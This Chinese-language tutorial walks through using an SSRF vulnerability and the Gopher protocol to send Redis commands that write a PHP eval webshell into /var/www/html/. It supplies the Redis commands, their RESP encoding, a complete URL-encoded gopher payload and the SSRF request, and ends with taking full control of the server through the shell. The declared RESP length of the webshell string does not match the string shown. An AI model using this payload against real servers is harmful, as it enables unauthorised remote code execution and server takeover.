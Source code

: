 ### SSRF 怎么用 Redis 写 Shell

**步骤一：利用 SSRF 伪造 Redis 协议请求**

SSRF 攻击需要将恶意请求发送给目标服务器的 Redis 服务。这里通常需要使用 **Gopher 协议**。Gopher 协议可以发送自定义的 TCP 请求，这正是我们与 Redis 交互所需要的

Redis 的通信协议（RESP）是一个基于文本的协议。我们可以使用 Gopher 协议将这些命令编码成 URL 格式

**Redis 命令序列：**

我们通过 SSRF 漏洞向 Redis 服务器依次发送以下命令：

1. `SET webshell "<?php eval($_POST['cmd']);?>"`：设置一个键名为 `webshell`，值为我们想要写入的 Webshell 代码
2. `CONFIG SET dir "/var/www/html/"`：设置 Redis 的工作目录为网站的根目录
3. `CONFIG SET dbfilename "shell.php"`：设置持久化文件名为 `shell.php`
4. `SAVE`：执行保存命令，将数据持久化到指定的文件中

**步骤二：将命令编码为 Gopher 协议 URL**

我们需要将上述 Redis 命令序列转换成 Gopher URL

- **将命令转换为 RESP 协议格式**：

  - `SET webshell "<?php eval($_POST['cmd']);?>"`  -> `*3\r\n$3\r\nSET\r\n$7\r\nwebshell\r\n$25\r\n<?php eval($_POST['cmd']);?>\r\n`
  - `CONFIG SET dir "/var/www/html/"` -> `*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$14\r\n/var/www/html/\r\n`
  - `CONFIG SET dbfilename "shell.php"` -> `*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$9\r\nshell.php\r\n`
  - `SAVE` -> `*1\r\n$4\r\nSAVE\r\n`

  *注：`\r\n` 是回车换行符，在 URL 中需要编码为 `%0d%0a`*

- **拼接成完整的 Gopher URL**： `gopher://127.0.0.1:6379/_` + `[RESP 编码的命令]` + `%0d%0a` + `[RESP 编码的命令]` + ...

  一个完整的 Gopher URL 示例如下：

  ```apl
  gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$7%0d%0awebshell%0d%0a$25%0d%0a%3c%3fphp%20eval%28%24_POST%5b%27cmd%27%5d%29%3b%3f%3e%0d%0a*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$3%0d%0adir%0d%0a$14%0d%0a/var/www/html/%0d%0a*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0ashell.php%0d%0a*1%0d%0a$4%0d%0aSAVE%0d%0a
  ```

**步骤三：通过 SSRF 漏洞发起请求**

将上述构造好的 URL 作为 SSRF 漏洞的参数值，例如：

```apl
http://example.com/ssrf.php?url=gopher://127.0.0.1:6379/_...
```

当服务器端执行这个请求时，它会通过 Gopher 协议向本地的 Redis 服务发送一系列命令，最终在 `/var/www/html/` 目录下生成一个名为 `shell.php` 的文件，其内容就是我们的 Webshell

**步骤四：访问 Webshell**

攻击者现在可以直接访问 `http://example.com/shell.php`，并通过 `cmd` 参数执行任意命令，从而完全控制服务器